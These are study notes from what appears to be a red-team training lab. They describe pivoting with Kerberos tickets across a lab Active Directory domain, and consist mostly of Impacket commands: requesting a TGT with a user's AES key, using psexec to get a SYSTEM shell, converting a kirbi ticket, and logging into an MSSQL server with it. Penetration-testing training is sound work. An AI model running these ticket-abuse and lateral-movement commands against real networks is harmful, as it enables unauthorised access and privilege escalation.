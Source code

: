 
## Pivoting with Kerberos

---

1. Let's use `getTGT.py` to request a TGT for jking with their AES256 hash.
```
proxychains getTGT.py -dc-ip 10.10.122.10 -aesKey 4a8a74daad837ae09e9ecc8c2f1b89f960188cb934db6d4bbebade8318ae57c6 dev.cyberbotic.io/jking
```
2. We must first create an environment variable called **KRB5CCNAME** that will point to the ccache file.
```
export KRB5CCNAME=jking.ccache
```
3. Now we can use `psexec.py` to get a SYSTEM shell on WEB.
```
proxychains psexec.py -dc-ip 10.10.122.10 -target-ip 10.10.122.30 -no-pass -k dev.cyberbotic.io/jking@web.dev.cyberbotic.io
```

If you have a ticket in kirbi format obtained with another tool, it can be converted to ccache format for use with Impacket.  For example, here I'm using the TGT delegation trick to get a usable TGT for bfarmer from a non-elevated session.

[[Rubeus#tgtdeleg]]

Base64 decode the ticket and write it to `bfarmer.kirbi`.

``` bash
echo -en 'doIFzj[...snip...]MuSU8=' | base64 -d > bfarmer.kirbi
```

Then convert it using `ticketConverter.py`.

```
ticketConverter.py bfarmer.kirbi bfarmer.ccache
```

Now let's use this TGT to interact with the SQL-2 service.

```
proxychains mssqlclient.py -dc-ip 10.10.122.10 -no-pass -k dev.cyberbotic.io/bfarmer@sql-2.dev.cyberbotic.io
```

This may require adding a static host entry to `/etc/hosts` and changing the _proxy_dns_ setting in `/etc/proxychains.conf` to _remote_dns_.


Kerberos tickets can also be leveraged from the Windows attacker machine.
1. The first step is to add _*.cyberbotic.io_ your Proxifier proxification rule(s).  This is because Kerberos uses hostnames rather than IP addresses and Proxifier won't proxy Kerberos traffic unless the domains are explicitly set in the rules.

![](https://files.cdn.thinkific.com/file_uploads/584845/images/433/8d7/81a/target-hosts.png)

2. Next, launch an instance of cmd.exe or powershell.exe using runas /netonly with a valid domain username, but a fake password.

